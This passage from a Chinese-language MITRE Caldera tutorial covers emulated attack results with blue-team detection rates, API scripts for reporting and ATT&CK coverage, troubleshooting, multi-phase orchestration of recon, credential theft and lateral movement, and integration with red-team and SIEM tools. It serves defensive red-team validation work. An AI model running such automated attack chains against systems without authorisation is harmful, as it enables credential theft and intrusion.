| 6 | 数据收集 (T1005) | ✓ 成功 | 10s | 收集 500+ 文件元数据 |
| 7 | 数据外传 (T1041) | ✗ 失败 | - | EDR 检测到异常网络流量并阻断 |
| 8 | 痕迹清理 (T1070) | ✓ 成功 | 1s | 清理 Windows 事件日志 |

**蓝色团队视角的检测情况**：

| Ability | 蓝色团队检测状态 | 检测方式 |
|---------|----------------|---------|
| 系统信息收集 | 未检测 | 常规 PowerShell 命令，未触发告警 |
| 网络扫描 | 部分检测 | SIEM 检测到内网扫描模式，但未及时响应 |
| 凭证抓取 | 已检测 | EDR 检测到 LSASS 内存访问，但未阻断 |
| 横向移动 | 已检测 | SIEM 检测到 PsExec 远程执行，触发告警 |
| 持久化 | 未检测 | 计划任务创建未被监控规则覆盖 |
| 数据收集 | 未检测 | 文件访问模式未在监控范围内 |
| 数据外传 | 已阻断 | EDR 检测到异常 DNS 隧道流量并阻断 |
| 痕迹清理 | 已检测 | SIEM 检测到事件日志清除事件 |

#### 阶段三：生成报告与分析

```python
#!/usr/bin/env python3
"""
Caldera 操作结果分析工具
用于评估红色团队覆盖率和蓝色团队检测率
"""
import requests
import json
import csv
from datetime import datetime

API_KEY = "ADMIN123"
BASE_URL = "https://localhost:8888"

def analyze_operation(op_id):
    """分析单次操作的覆盖度"""
    resp = requests.get(
        f"{BASE_URL}/api/v2/operations/{op_id}",
        headers={"KEY": API_KEY},
        verify=False
    )
    op = resp.json()
    
    results = {
        "operation_name": op["name"],
        "start_time": op.get("start", ""),
        "end_time": op.get("finish", ""),
        "total_techniques": len(op.get("abilities", [])),
        "techniques_uncovered": [],
        "failed_techniques": [],
        "coverage_by_tactic": {}
    }
    
    for ability in op.get("abilities", []):
        tactic = ability.get("tactic", "unknown")
        status = ability.get("status", "unknown")
        tech = f"{ability['technique']['attack_id']} - {ability['technique']['name']}"
        
        if tactic not in results["coverage_by_tactic"]:
            results["coverage_by_tactic"][tactic] = {"total": 0, "success": 0, "fail": 0}
        
        results["coverage_by_tactic"][tactic]["total"] += 1
        if status == "success":
            results["coverage_by_tactic"][tactic]["success"] += 1
        else:
            results["coverage_by_tactic"][tactic]["fail"] += 1
            results["failed_techniques"].append(tech)
    
    return results

# 生成覆盖率报告
result = analyze_operation("your-op-id-here")

print(f"=== {result['operation_name']} 覆盖率分析 ===")
print(f"执行时间: {result['start_time']} ~ {result['end_time']}")
print(f"技术总数: {result['total_techniques']}")
print(f"\n各阶段覆盖率:")

for tactic, stats in result["coverage_by_tactic"].items():
    rate = stats["success"] / stats["total"] * 100 if stats["total"] > 0 else 0
    bar = "#" * int(rate / 10) + "." * (10 - int(rate / 10))
    print(f"  {tactic:25s} [{bar}] {rate:5.1f}% ({stats['success']}/{stats['total']})")

if result["failed_techniques"]:
    print(f"\n失败技术 ({len(result['failed_techniques'])}个):")
    for t in result["failed_techniques"]:
        print(f"  - {t}")
```

---

### 报告与数据分析

Caldera 提供了多层级的报告能力，支持 WebUI 查看和 API 导出。

#### 内置报告类型

```bash
# 获取 Operation 完整报告（JSON 格式）
curl -k -X GET "https://localhost:8888/api/v2/operations/{op_id}" \
  -H "KEY: ADMIN123" \
  -o operation_report.json

# 获取事实报告（所有 Facts 的完整记录）
curl -k -X GET "https://localhost:8888/api/v2/reports/facts/{op_id}" \
  -H "KEY: ADMIN123"

# 获取时间线报告（按时间排序的所有事件）
curl -k -X GET "https://localhost:8888/api/v2/reports/timeline/{op_id}" \
  -H "KEY: ADMIN123"

# 获取 Agent 状态报告
curl -k -X GET "https://localhost:8888/api/v2/agents" \
  -H "KEY: ADMIN123"

# 导出为 CSV（便于 Excel 分析）
python3 -c "
import requests, csv, json
resp = requests.get('https://localhost:8888/api/v2/operations/{op_id}', 
                    headers={'KEY': 'ADMIN123'}, verify=False)
op = resp.json()
with open('report.csv', 'w', newline='') as f:
    writer = csv.writer(f)
    writer.writerow(['Ability', 'Tactic', 'Technique', 'Status', 'Output'])
    for a in op['abilities']:
        writer.writerow([
            a['name'], a.get('tactic',''), 
            a['technique']['attack_id'], a['status'],
            a.get('output','')[:200]
        ])
print('CSV exported: report.csv')
"
```

#### ATT&CK 覆盖度分析

```python
#!/usr/bin/env python3
"""
ATT&CK 覆盖度分析
对比 Caldera 执行结果与完整 ATT&CK 矩阵，识别覆盖缺口
"""

# ATT&CK 14 个战术阶段
ATTCK_TACTICS = [
    "reconnaissance", "resource-development", "initial-access",
    "execution", "persistence", "privilege-escalation",
    "defense-evasion", "credential-access", "discovery",
    "lateral-movement", "collection", "command-and-control",
    "exfiltration", "impact"
]

def analyze_coverage(operations):
    """分析多次 Operation 的累计 ATT&CK 覆盖度"""
    covered_tactics = set()
    covered_techniques = set()
    failed_techniques = set()
    
    for op in operations:
        for ability in op.get("abilities", []):
            tactic = ability.get("tactic", "unknown")
            tech_id = ability["technique"]["attack_id"]
            status = ability.get("status", "unknown")
            
            covered_tactics.add(tactic)
            if status == "success":
                covered_techniques.add(tech_id)
            else:
                failed_techniques.add(tech_id)
    
    # 计算覆盖率
    tactic_coverage = len(covered_tactics) / len(ATTCK_TACTICS) * 100
    
    print("=== ATT&CK 覆盖度报告 ===")
    print(f"战术覆盖率: {len(covered_tactics)}/{len(ATTCK_TACTICS)} ({tactic_coverage:.1f}%)")
    print(f"成功技术数: {len(covered_techniques)}")
    print(f"失败技术数: {len(failed_techniques)}")
    
    print("\n战术覆盖详情:")
    for tactic in ATTCK_TACTICS:
        status = "✓" if tactic in covered_tactics else "✗"
        print(f"  {status} {tactic}")
    
    # 识别未覆盖的战术
    uncovered = set(ATTCK_TACTICS) - covered_tactics
    if uncovered:
        print(f"\n⚠️  未覆盖战术 ({len(uncovered)}个):")
        for t in sorted(uncovered):
            print(f"  - {t}")
    
    return {
        "tactic_coverage": tactic_coverage,
        "covered_techniques": len(covered_techniques),
        "failed_techniques": len(failed_techniques),
        "uncovered_tactics": list(uncovered)
    }
```

---

### 常见问题与排错

#### 问题 1：Agent 无法连接

```bash
症状：部署 Agent 后，Caldera Server 显示 Agent 离线

原因排查：
1. 防火墙阻塞 → 检查 8888 和 7010-7012 端口是否可达
2. URL 填写错误 → 确认 Agent 启动时 -server 参数正确
3. 版本不匹配 → 确保 Agent 与 Server 版本一致（主版本号必须相同）
4. SSL 证书问题 → 自签名证书在 Agent 端可能不被信任

解决方案：
# 在目标机器上测试连通性
telnet caldera-server 8888
nc -zv caldera-server 7010

# 查看 Agent 日志
# Windows: %APPDATA%\caldera\agent.log
# Linux: /tmp/caldera_agent.log

# 启用 Agent 详细日志
sandcat -server http://caldera-server:8888 -v

# 检查 Server 端 Agent 列表
curl -k https://localhost:8888/api/v2/agents -H "KEY: ADMIN123"
```

#### 问题 2：Ability 执行失败

```text
症状：Ability 一直处于 "executing" 状态或返回错误

常见原因：
1. 命令语法错误 → 在目标机器上手动测试 Ability 命令
2. 权限不足 → Ability 需要管理员/系统权限
3. Fact 缺失 → Ability 依赖的 Fact 未提供或未正确注入
4. Payload 未上传 → 需要 Payload 的 Ability 未上传文件
5. 超时设置过短 → 复杂命令执行时间超过 Agent 默认超时

排查步骤：
1. 查看 Operation 详情中的错误信息（WebUI → Operations → 点击失败的 Ability）
2. 在目标机器上手动执行 Ability 命令（排除环境问题）
3. 检查 Fact 是否正确注入（WebUI → Facts 查看当前 Fact 列表）
4. 查看 Server 日志（caldera/logs/server.log）
5. 检查 Agent 是否仍在心跳（API 查询 Agent 状态）
```

#### 问题 3：Fact 未正确传递

```bash
症状：后续 Ability 无法获取前面 Ability 产生的 Fact

常见原因：
1. Ability 输出格式不规范 → Agent 无法自动提取 Fact
2. Fact trait 命名冲突 → 后续 Ability 覆盖了之前的 Fact
3. Agent 未正确解析输出 → 检查 Agent 版本和输出解析逻辑

解决方案：
# 手动注入 Fact
curl -k -X POST https://localhost:8888/api/v2/facts \
  -H "KEY: ADMIN123" \
  -H "Content-Type: application/json" \
  -d '{
    "source": "manual-injection",
    "facts": [
      {"trait": "target.domain", "value": "corp.local"},
      {"trait": "domain.controller", "value": "dc01.corp.local"}
    ]
  }'
```

#### 常见误区

| 误区 | 正确理解 |
|------|---------|
| Caldera 可以替代人工渗透测试 | 辅助而非替代。自动化覆盖广度，人工提供深度。Caldera 擅长系统化验证，人工擅长创新性攻击 |
| Ability 一次编写永久使用 | 随着 ATT&CK 更新和系统补丁，需要定期维护。建议每季度审查一次 Ability 库 |
| 默认配置可直接用于生产 | 默认密码（admin/admin）和自签名证书必须修改。默认配置仅用于快速验证 |
| 执行失败就是防御生效 | 可能是环境问题、权限不足、配置错误或命令语法错误。需逐一排查 |
| Atomic 测试完全兼容 Caldera | 部分 Atomic 测试需修改命令格式和 Fact 引用方式才能适配 Caldera |
| Agent 越多测试效果越好 | Agent 数量应与 Operation 范围匹配。过多 Agent 增加管理复杂度和被检测风险 |
| Caldera 只能用于攻击模拟 | 蓝色团队也可用 Caldera 验证检测规则覆盖度和响应速度 |

---

### 进阶技巧

#### 1. 多阶段操作（Multi-Phase Operations）

将复杂攻击拆分为多个阶段，每个阶段独立执行并传递 Facts：

```python
#!/usr/bin/env python3
"""
多阶段 Operation 自动化编排
Phase 1: 侦察 → Phase 2: 凭证窃取 → Phase 3: 横向移动 → Phase 4: 数据窃取
"""
import requests
import time

API_KEY = "ADMIN123"
BASE_URL = "https://localhost:8888"

def run_phase(adversary_id, group, facts, wait=True):
    """启动一个阶段的 Operation"""
    payload = {
        "name": f"Multi-Phase - {adversary_id}",
        "adversary": {"adversary_id": adversary_id},
        "group": group,
        "planner": "sequential",
        "source": "basic",
        "state": "running",
        "autonomous": 1,
        "facts": facts
    }
    
    resp = requests.post(
        f"{BASE_URL}/api/v2/operations",
        headers={"KEY": API_KEY, "Content-Type": "application/json"},
        json=payload,
        verify=False
    )
    op_id = resp.json()["id"]
    print(f"Phase started: {op_id}")
    
    if wait:
        # 等待完成
        while True:
            status_resp = requests.get(
                f"{BASE_URL}/api/v2/operations/{op_id}",
                headers={"KEY": API_KEY},
                verify=False
            )
            state = status_resp.json().get("state", "")
            if state in ("finished", "error"):
                break
            time.sleep(10)
        
        # 提取本阶段产生的新 Facts
        facts_resp = requests.get(
            f"{BASE_URL}/api/v2/reports/facts/{op_id}",
            headers={"KEY": API_KEY},
            verify=False
        )
        return op_id, facts_resp.json()
    
    return op_id, {}

# 执行多阶段攻击
# Phase 1: 侦察
op1, facts1 = run_phase("recon-adversary", "workstations", [
    {"trait": "target.domain", "value": "corp.local"}
])

# Phase 2: 凭证窃取（使用 Phase 1 的 Fact）
op2, facts2 = run_phase("cred-theft-adversary", "workstations", 
    facts1.get("facts", []))

# Phase 3: 横向移动（使用 Phase 1+2 的 Fact）
all_facts = facts1.get("facts", []) + facts2.get("facts", [])
op3, facts3 = run_phase("lateral-adversary", "servers", all_facts)

print("Multi-phase operation completed")
```

#### 2. 与其他红队工具集成

```bash
# ===== 与 Cobalt Strike 集成（External C2）=====
# Cobalt Strike 作为 C2 框架，Caldera 作为自动化编排引擎

# 配置 Cobalt Strike External C2 连接到 Caldera
# 在 Cobalt Strike 中加载 External C2 Listener
# 配置端口和密钥，指向 Caldera 的 Agent 管理端口

# ===== 与 BloodHound 集成（自动发现攻击路径）=====
# BloodHound 发现的攻击路径 → 注入 Caldera 作为 Fact

curl -k -X POST https://localhost:8888/api/v2/facts \
  -H "KEY: ADMIN123" \
  -H "Content-Type: application/json" \
  -d '{
    "source": "bloodhound-discovery",
    "facts": [
      {"trait": "admin.user", "value": "domain_admin@corp.local"},
      {"trait": "computer.target", "value": "dc01.corp.local"},
      {"trait": "attack.path", "value": "WS01→DC01 via PsExec"},
      {"trait": "group.members", "value": "Domain Admins=domain_admin"}
    ]
  }'

# ===== 与 Sliver 集成 =====
# Sliver 作为 Agent（更隐蔽的 C2），Caldera 作为编排层
# 使用 Sliver 的 malleable-c2 配置模拟正常流量

# ===== 与 Velociraptor 集成（取证采集）=====
# Caldera 执行攻击后，Velociraptor 采集取证数据
velociraptor collect \
  --artifacts Windows.System.Pslist,Windows.System.Netstat \
  --output /evidence/caldera_${OP_ID}/

# ===== 与 Sigma/SIEM 集成 =====
# 将 Caldera 的 Ability 映射到 Sigma 规则，自动验证检测覆盖
# 使用 Sigma CLI 批量转换检测规则
sigma convert -t splunk_windows -p sysmon \
  sigma/rules/windows/ | splunk add search "caldera-test"
```

#### 3. 自定义事实来源（Fact Source）

```yaml
# sources/custom-environment.yml
- id: custom-env-source
  name: 自定义环境配置
  facts:
    - trait: domain.name
      value: "corp.local"
    - trait: domain.controller
      value: "dc01.corp.local"
    - trait: admin.users
      value: "['admin01','admin02']"
    - trait: sensitive.paths
      value: "['C:\\HR_Docs','C:\\Finance']"
    - trait: network.range
      value: "10.10.1.0/24"
  rules:
    - trait: domain.name
      match: regex
      value: "^[a-z0-9.-]+$"
      description: 验证域名格式
    - trait: network.range
      match: regex
      value: "^((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)/[0-9]{1,2}$"
      description: 验证 CIDR 格式
```

#### 4. CI/CD 集成：自动化回归测试

```bash
#!/bin/bash
# caldera-regression.sh - CI/CD 集成的自动化回归测试
# 用法: ./caldera-regression.sh [环境] [操作列表文件]

set -euo pipefail

ENV="${1:-staging}"
OPS_FILE="${2:-operations.list}"
REPORT_DIR="/reports/caldera/$(date +%Y%m%d_%H%M%S)"
CALDERA_URL="https://caldera-${ENV}:8888"
API_KEY="${CALDERA_API_KEY}"

mkdir -p "$REPORT_DIR"

echo "=== Caldera Regression Test ==="
echo "Environment: $ENV"
echo "Report Dir: $REPORT_DIR"
echo "Started at: $(date)"

# 读取操作列表
while IFS= read -r op_id; do
    [[ "$op_id" =~ ^#.*$ || -z "$op_id" ]] && continue
    
    echo ""
    echo "--- Running: $op_id ---"
    
    # 启动 Operation
    resp=$(curl -k -s -X POST "${CALDERA_URL}/api/v2/operations/${op_id}/run" \
        -H "KEY: ${API_KEY}")
    
    # 等待完成（最长 30 分钟）
    timeout=1800
    elapsed=0
    while [ $elapsed -lt $timeout ]; do
        status=$(curl -k -s "${CALDERA_URL}/api/v2/operations/${op_id}" \
            -H "KEY: ${API_KEY}" | python3 -c "import sys,json; print(json.load(sys.stdin).get('state',''))")
        
        if [ "$status" = "finished" ] || [ "$status" = "error" ]; then
            break
        fi
        
        sleep 10
        elapsed=$((elapsed + 10))
        echo "  Waiting... (${elapsed}s)"
    done
    
    # 收集结果
    curl -k "${CALDERA_URL}/api/v2/operations/${op_id}" \
        -H "KEY: ${API_KEY}" \
        -o "${REPORT_DIR}/${op_id}.json"
    
    # 统计结果
    success=$(python3 -c "
import json
with open('${REPORT_DIR}/${op_id}.json') as f:
    op = json.load(f)
abilities = op.get('abilities', [])
total = len(abilities)
ok = sum(1 for a in abilities if a.get('status') == 'success')
print(f'{ok}/{total}')
")
    
    echo "  Result: $success passed"
    echo "  Status: $status"
    
    # 失败时记录但继续
    if [ "$status" = "error" ]; then
        echo "  ⚠️  Operation failed!"
    fi
    
done < "$OPS_FILE"

# 生成汇总报告
echo ""
echo "=== Summary ==="
echo "Completed at: $(date)"
echo "Reports: ${REPORT_DIR}/"

# 如果在 CI 环境中，输出 JUnit 格式报告
if [ -n "${CI:-}" ]; then
    python3 - "${REPORT_DIR}" <<'PYTHON'
import json, os, sys
report_dir = sys.argv[1]
print('<?xml version="1.0" encoding="UTF-8"?>')
print('<testsuites>')
for f in sorted(os.listdir(report_dir)):
    if f.endswith('.json'):
        with open(os.path.join(report_dir, f)) as fh:
            op = json.load(fh)
        name = op.get('name', f)
        abilities = op.get('abilities', [])
        total = len(abilities)
        failures = sum(1 for a in abilities if a.get('status') != 'success')
        print(f'  <testsuite name="{name}" tests="{total}" failures="{failures}">')
        for a in abilities:
            tc = a.get('technique', {}).get('attack_id', 'unknown')
            status = 'failure' if a.get('status') != 'success' else ''
            print(f'    <testcase name="{a.get("name","")}" classname="{tc}">')
            if status == 'failure':
                print(f'      <failure>{a.get("output","")[:200]}</failure>')
            print(f'    </testcase>')
        print(f'  </testsuite>')
print('</testsuites>')
PYTHON
fi
```

#### 5. 与 SIEM/SOAR 平台集成

```python
#!/usr/bin/env python3
"""
Caldera-SIEM 集成：自动将 Operation 结果推送到 Splunk/ELK
用于蓝队自动验证检测规则覆盖度
"""
import requests
import json
from datetime import datetime

def push_to_splunk(op_data, splunk_url, splunk_token):
    """将 Caldera Operation 结果推送到 Splunk"""
    for ability in op_data.get("abilities", []):
        event = {
            "time": datetime.now().isoformat(),
            "source": "caldera",
            "sourcetype": "caldera:operation",
            "event": {
                "operation": op_data["name"],
                "ability": ability["name"],
                "technique_id": ability["technique"]["attack_id"],
                "technique_name": ability["technique"]["name"],
                "tactic": ability.get("tactic", "unknown"),
                "status": ability.get("status", "unknown"),
                "output": ability.get("output", "")[:500],
                "agent_paw": ability.get("paw", "unknown")
            }
        }
        
        resp = requests.post(
            f"{splunk_url}/services/collector/event",
            headers={"Authorization": f"Splunk {splunk_token}"},
            json=event,
            verify=False
        )
        
        if resp.status_code != 200:
            print(f"Failed to push event for {ability['name']}: {resp.status_code}")

def push_to_elk(op_data, elk_url):
    """将 Caldera Operation 结果推送到 Elasticsearch"""
    for ability in op_data.get("abilities", []):
        doc = {
            "operation": op_data["name"],
            "ability": ability["name"],
            "technique_id": ability["technique"]["attack_id"],
            "technique_name": ability["technique"]["name"],
            "tactic": ability.get("tactic", "unknown"),
            "status": ability.get("status", "unknown"),
            "output": ability.get("output", "")[:500],
            "agent_paw": ability.get("paw", "unknown"),
            "@timestamp": datetime.utcnow().isoformat() + "Z"
        }
        
        resp = requests.post(
            f"{elk_url}/caldera-operations/_doc",
            json=doc,
            headers={"Content-Type": "application/json"},
            verify=False
        )
        
        if resp.status_code not in (200, 201):
            print(f"Failed to index event for {ability['name']}: {resp.status_code}")
```

---

### 常见误区与最佳实践

| 误区 | 正确理解 | 建议做法 |
|------|---------|---------|
| Caldera 可以替代人工渗透测试 | 辅助而非替代。自动化覆盖广度，人工提供深度 | 用 Caldera 做系统化验证，人工做创新性攻击 |
| Ability 一次编写永久使用 | 随着 ATT&CK 更新和系统补丁，需要定期维护 | 每季度审查 Ability 库，跟踪 ATT&CK 版本更新 |
| 默认配置可直接用于生产 | 默认密码和自签名证书必须修改 | 部署时第一步就是修改所有默认凭据 |
| 执行失败就是防御生效 | 可能是环境问题、权限不足或配置错误 | 逐一排查：命令手动执行 → 权限检查 → Fact 验证 → 日志分析 |
| Atomic 测试完全兼容 Caldera | 部分 Atomic 测试需修改才能适配 Caldera | 导入前测试命令兼容性，必要时修改 Fact 引用 |
| Agent 越多测试效果越好 | Agent 数量应与 Operation 范围匹配 | 根据目标网络规模合理规划 Agent 数量 |
| Caldera 只能用于攻击模拟 | 蓝色团队也可用它验证检测规则覆盖度 | 蓝队定期用 Caldera 测试检测规则有效性 |
| 运行一次就够了 | 安全是持续过程，需要定期回归测试 | 纳入 CI/CD，每次安全配置变更后自动执行 |

---

### 进阶：性能优化与大规模部署

#### 大规模部署策略

```text
┌─────────────────────────────────────────────────────┐
│                 企业级部署架构                        │
├─────────────────────────────────────────────────────┤
│                                                     │
│  ┌──────────┐    ┌──────────┐    ┌──────────┐      │
│  │ Caldera  │    │ Caldera  │    │ Caldera  │      │
│  │ Server 1 │    │ Server 2 │    │ Server 3 │      │
│  │ (研发区) │    │ (办公区) │    │ (DMZ区)  │      │
│  └────┬─────┘    └────┬─────┘    └────┬─────┘      │
│       │               │               │             │
│       └───────────────┼───────────────┘             │
│                       │                             │
│              ┌────────┴────────┐                    │
│              │  中央报告聚合    │                    │
│              │  (Elasticsearch)│                    │
│              └─────────────────┘                    │
│                                                     │
└─────────────────────────────────────────────────────┘
```

**优化建议**：

1. **分区部署**：按网络区域部署独立的 Caldera Server，避免跨区域通信被防火墙阻断
2. **Agent 数量控制**：每个 Operation 的 Agent 数量建议不超过 50 个，避免 Server 过载
3. **心跳间隔调整**：大规模部署时增大 Agent 的 sleep 参数（60-120 秒），减少 Server 负载
4. **日志轮转**：配置日志轮转策略，避免磁盘空间耗尽
5. **数据库优化**：生产环境使用 PostgreSQL 替代默认的 SQLite，提升并发性能

---

### 总结

MITRE Caldera 是现代红蓝对抗体系中不可或缺的自动化平台。它的价值不在于替代安全人员的判断，而在于：

1. **系统化覆盖**：确保每个 ATT&CK 技术都被验证，不留测试盲区
2. **持续验证**：每次系统升级、配置变更后快速回归验证防御有效性
3. **可量化改进**：用数据而非感觉衡量安全建设进展
4. **团队赋能**：红色团队专注于高难度技术攻克，蓝色团队专注于检测规则优化
5. **知识沉淀**：将攻击经验编码为可复用的 Ability 和 Adversary，降低人员流动带来的知识损失

**推荐学习路径：**

| 阶段 | 目标 | 预估时间 | 关键产出 |
|------|------|---------|---------|
| 入门 | 完成安装、部署第一个 Agent、执行第一个 Operation | 1 天 | 环境搭建完成 |
| 基础 | 掌握 Ability 编写、Adversary 编排、Fact 系统 | 3 天 | 自定义攻击剧本 |
| 进阶 | 自定义 Planner、集成 Atomic Red Team、多阶段操作 | 1 周 | 完整攻击链自动化 |
| 精通 | 工具链集成、CI/CD 自动化、大规模部署、性能优化 | 2 周+ | 企业级对抗平台 |

**扩展资源：**

- 官方文档：https://caldera.mitre.org/
- ATT&CK Navigator：https://mitre-attack.github.io/attack-navigator/
- Atomic Red Team：https://github.com/redcanaryco/atomic-red-team
- ATT&CK 框架：https://attack.mitre.org/
- Caldera GitHub：https://github.com/mitre/caldera
- MITRE ATT&CK Evaluations：https://attack.mitre.org/evaluations/
